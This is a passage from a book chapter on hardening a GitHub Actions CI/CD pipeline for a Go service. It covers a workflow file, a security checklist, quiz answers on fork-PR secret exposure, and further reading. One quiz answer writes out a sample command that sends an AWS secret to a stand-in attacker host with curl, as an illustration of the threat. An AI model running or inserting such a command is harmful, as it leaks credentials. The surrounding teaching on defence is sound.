  push:         { branches: [main], paths: ['app/<SERVICE>/**'] }
permissions: { contents: read }            # read-only; jobs ask for more
concurrency:  { group: <SERVICE>-ci-${{ github.ref }}, cancel-in-progress: true }
jobs:
  lint-test:                               # stage 3a: fast gate
    runs-on: ubuntu-latest
    permissions: { contents: read }
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
      - uses: actions/setup-go@b7ad1dad31e06c5925ef5d2fc7ad053ef454303e # v7.0.0
        with: { go-version-file: app/<SERVICE>/go.mod, cache: true, cache-dependency-path: app/<SERVICE>/go.sum }
      - run: go vet ./... && go test -short -race -count=1 ./...
  integration-test:                        # stage 3b: Postgres via testcontainers
    runs-on: ubuntu-latest
    needs: lint-test
    permissions: { contents: read }
    steps: [ { run: go test -race -count=1 -run TestPostgresRepo_Contract ./... } ]
  scan:                                    # stage 3c: Trivy gate (exit-code 1)
    runs-on: ubuntu-latest
    needs: integration-test
    permissions: { contents: read }
    steps:
      - uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25 # v0.36.0
        with: { version: 'v0.76.1', scan-type: fs, scan-ref: app/<SERVICE>, severity: 'HIGH,CRITICAL', exit-code: '1' }
  build-sign-push:                         # stage 4: push to main only; OIDC + cosign
    runs-on: ubuntu-latest
    needs: scan
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    environment: bookstore-publish         # reviewer, main only, holds the role ARN
    permissions: { contents: read, id-token: write, attestations: write }
    steps:
      - uses: aws-actions/configure-aws-credentials@7474bc4690e29a8392af63c5b98e7449536d5c3a # v4.3.1
      - uses: docker/build-push-action@10e90e3645eae34f1e60eeb005ba3a3d33f178e8 # v6.19.2
      - run: cosign sign --yes --recursive <IMAGE>@<DIGEST>   # keyless, 15.03
  update-gitops-pr:                        # stage 5: PR to the GitOps repo, not kubectl apply
    needs: build-sign-push
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    environment: bookstore-publish         # holds the GitOps token
    permissions: { contents: read }
    steps:
      - uses: peter-evans/create-pull-request@22a9089034f40e5a961c8808d113e2c98fb63676 # v7.0.11
        with: { token: '${{ secrets.GITOPS_PR_TOKEN }}' }   # PAT or App token, not GITHUB_TOKEN
```

Checklist:

- [ ] Five-job DAG: lint-test → integration-test → scan →
      build-sign-push → update-gitops-pr; fail-fast at each gate
- [ ] **OIDC** for ECR push (no static AWS keys in repo secrets);
      `id-token: write` on the build job only
- [ ] The `bookstore-publish` environment on the secret-needing jobs: a
      required reviewer, deployments from `main` only, and the secrets inside
      it (the `if:` stays as a convenience)
- [ ] No `pull_request_target` triggers anywhere; `contents: read` at
      workflow level, and each job's extra scope in its own `permissions:`
- [ ] Every third-party action pinned to a commit SHA, with the release
      in a comment; Trivy and cosign pinned by version
- [ ] Multi-arch buildx (amd64 + arm64) so Part 14 ch.09 Graviton
      migration is a config bump, not a code change
- [ ] cosign keyless sign with `--recursive`, and cosign attest a CycloneDX
      SBOM bound to the **digest** (not a tag), plus SLSA provenance from
      `actions/attest-build-provenance`; per-leg digest artifact for the fan-in
      into the GitOps PR job
- [ ] GitOps PR opened with a PAT or App token scoped to the GitOps repo;
      branch protection there: dev auto-merges; staging and prod need review
- [ ] Coverage gates calibrated to risk (read-only services: none;
      write-path: 70%; money: 80%)
- [ ] Third-party service images pinned by digest; CODEOWNERS on
      `.github/workflows/`

## Test your understanding

> Try each before opening the answer drawer. The act of trying is the
> exercise; the answer is the check.

1. **What is the "CI ate my repo" footgun, and what are the three structural
   defences the chapter's workflows use against it?**
   <details><summary>Show answer</summary>

   An untrusted PR (from a fork or external contributor) runs a workflow that
   has access to secrets: a single `echo $AWS_SECRET > /tmp/x; curl evil.com
   -d @/tmp/x` step exfiltrates everything the workflow can see. Three
   defences: (1) the `bookstore-publish` environment on the privileged jobs
   (sign, push, GitOps PR), with a reviewer and main-only deployments, so their
   secrets are not released to other branches (the `if:` is only a
   convenience); fork PRs run lint/test/scan only; (2) workflow-level `permissions:` minimal
   (`id-token: write` only when needed, default `contents: read`); (3)
   **don't** use `pull_request_target` against fork code unless the workflow
   is hardened. That trigger runs in the base repo's context with secrets,
   which is the exact attack surface. The combination of these three is what
   makes the workflow safe to expose to public-fork PRs.

   </details>

2. **Why does the chapter argue coverage gates should be *asymmetric* across
   services rather than one cluster-wide threshold?**
   <details><summary>Show answer</summary>

   Risk is asymmetric. payments-worker handles money: a bug is unrecoverable,
   so 80% coverage on every PR including informational ones is right. orders
   writes data: 70% on `main` only is right; PRs are advisory. catalog is
   read-only: no coverage gate, just the race detector. Cargo-culting one
   threshold (say "80% across the board") trains developers to ignore it: the
   catalog team adds noise tests to hit the number, the payments team feels
   the bar is too low, nobody trusts the metric. The chapter's discipline:
   coverage gates encode a real product decision, calibrated per-service.

   </details>

3. **Why does the GitOps job use a PAT or App token instead of the default
   `GITHUB_TOKEN`, and what would you see if `GITHUB_TOKEN` opened the PR?**
   <details><summary>Show answer</summary>

   Events triggered by `GITHUB_TOKEN` do not start new workflow runs, so a PR
   it opens gets no `pull_request` checks, and the required checks never run.
   The GitOps repo's branch protection then waits on checks that never arrive.
   [07.03](../07-delivery/03-cicd-pipeline.md) runs this and shows the empty
   check list. A PAT or App token scoped to `contents: write` and
   `pull-requests: write` on the GitOps repo starts the checks, and it keeps
   any compromise inside that one repo.

   </details>

4. **Hands-on extension: open a fork PR against the bookstore-platform CI
   workflow. What runs, what doesn't, and what does the run log show?**
   <details><summary>What you should see</summary>

   The lint, test, integration-test, and scan jobs run. They don't need
   secrets, they need only the public source code. The build-sign-push and
   update-gitops-pr jobs **skip** because of the `if: github.event_name ==
   'push' && github.ref == 'refs/heads/main'` guard; the run log shows them
   with a "skipped" status and a condition that didn't match. Critically, ECR
   push permissions and the GitOps repo PAT are never used in the fork's run
   because the jobs that would use them never executed. This is the chapter's
   structural defence in action. Fork contributors can pass tests and submit
   PRs without holding any credential the workflow has.

   </details>

## Further reading

- **Rosso et al., _Production Kubernetes_, ch.11 — Building Platform
  Services** (CI/CD as the delivery interface of an internal developer
  platform; the framing this chapter operationalises in GitHub Actions).
- **Humble & Farley, _Continuous Delivery_, ch.5–6** (the deployment-
  pipeline-as-code discipline this chapter implements; the gate-DAG
  here is a 2026 specialisation of Humble & Farley's 2010 architecture).
- **GitHub Actions docs — Security hardening for GitHub Actions**:
  <https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions>
  (the authoritative reference for `pull_request_target`, OIDC, and
  fork-PR isolation).
- Official / project docs: GitHub Actions —
  <https://docs.github.com/en/actions>; AWS OIDC for GitHub Actions —
  <https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_providers_create_oidc.html>;
  cosign keyless — <https://docs.sigstore.dev/cosign/openid_connect/>;
  Trivy — <https://aquasecurity.github.io/trivy/>; syft —
  <https://github.com/anchore/syft>.
